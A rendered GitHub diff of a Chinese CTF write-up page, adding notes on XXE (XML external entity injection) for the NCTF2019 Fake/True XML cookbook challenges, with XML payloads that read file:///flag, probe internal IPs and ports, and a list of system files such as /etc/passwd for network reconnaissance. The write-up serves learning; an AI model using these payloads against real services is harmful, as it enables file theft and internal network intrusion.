

Before and after one commit to 181726943/writeup, a Markdown page: ctf-wp.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
记录XXE-XML外部实体注入wp

````diff
--- a/ctf-wp.md
+++ b/ctf-wp.md
@@ -1612,9 +1612,12 @@ escapeshellcmd — shell 元字符转义
 
 payload:`?exp=print_r(highlight_file(next(array_reverse(scandir(current(localeconv()))))));`
 
-## NCTF2019 Fake XML cookbook(XXE漏洞)
+## XXE-XML External Entity Injection(XML外部实体注入)
+
+### NCTF2019 Fake/True XML cookbook
 
 [从XML相关一步一步到XXE漏洞](https://xz.aliyun.com/t/6887?time__1311=n4%2BxnD0DRDyB5AKDsYohrYYK0KmvD7KPx&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Ft%2F6887#toc-2)
+[XXE漏洞详细讲解](https://xz.aliyun.com/t/3357#toc-23)
 
 1. XXE漏洞原理：发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起DOS攻击等危害。XXE漏洞触发的点往往是可以上传XML文件的位置，没有对上传的XML文件进行过滤，导致可上传恶意XML文件。
 
@@ -1623,59 +1626,38 @@ payload:`?exp=print_r(highlight_file(next(array_reverse(scandir(current(localeco
    - SYSTEM、PUBLIC（外部资源申请）
 
    ```xml
-    内部实体
-    <!ENTITY 实体名称 "实体值">
-
-    外部实体
-    <!ENTITY 实体名称 SYSTEM "URL">
+   <?xml version = "1.0" encoding = "utf-8"?>
+    <!DOCTYPE test [
+        <!-- 读文件 -->
+        <!ENTITY admin SYSTEM "file:///flag">
+        <!-- 内网端口扫描 -->
+        <!ENTITY test SYSTEM "http://ip:port/">
+        <!-- 内网探测 -->
+        <!ENTITY test SYSTEM "https://ip">
+    ]>
+    <user><username>&admin;</username><password>{任意值}</password></user>
    ```
-
-2. 源码
-
-   ```javascript
-    function doLogin(){
-        var username = $("#username").val();
-        var password = $("#password").val();
-        if(username == "" || password == ""){
-            alert("Please enter the username and password!");
-            return;
-        }
-
-        var data = "<user><username>" + username + "</username><password>" + password + "</password></user>";
-        $.ajax({
-            type: "POST",
-            url: "doLogin.php",
-            contentType: "application/xml;charset=utf-8",
-            data: data,
-            dataType: "xml",
-            anysc: false,
-            success: function (result) {
-                var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
-                var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
-                if(code == "0"){
-                    $(".msg").text(msg + " login fail!");
-                }else if(code == "1"){
-                    $(".msg").text(msg + " login success!");
-                }else{
-                    $(".msg").text("error:" + msg);
-                }
-            },
-            error: function (XMLHttpRequest,textStatus,errorThrown) {
-                $(".msg").text(errorThrown + ':' + textStatus);
-            }
-        });
-    }
-   ```
-
-   payload:
+   **内网探测用到的文件**
+    - /etc/hosts 储存域名解析的缓存
+    - /etc/passwd 用户密码
+    - /proc/net/arp 每个网络接口的arp表中dev包
+    - /proc/net/fib_trie ipv4路由表
+
+2. payload:
 
    ```xml
+   <!-- Fake -->
     <?xml version = "1.0" encoding = "utf-8"?>
     <!DOCTYPE test [
         <!ENTITY admin SYSTEM "file:///flag">
     ]>
-
     <user><username>&admin;</username><password>1123</password></user>
+    <!-- True -->
+    <?xml version = "1.0" encoding = "utf-8"?>
+    <!DOCTYPE test [
+        <!ENTITY test SYSTEM "http://10.253.81./">
+    ]>
+    <user><username>&test;</username><password>1123</password></user>
    ```
 
 ## BJDCTF2020 Mark loves cat
````
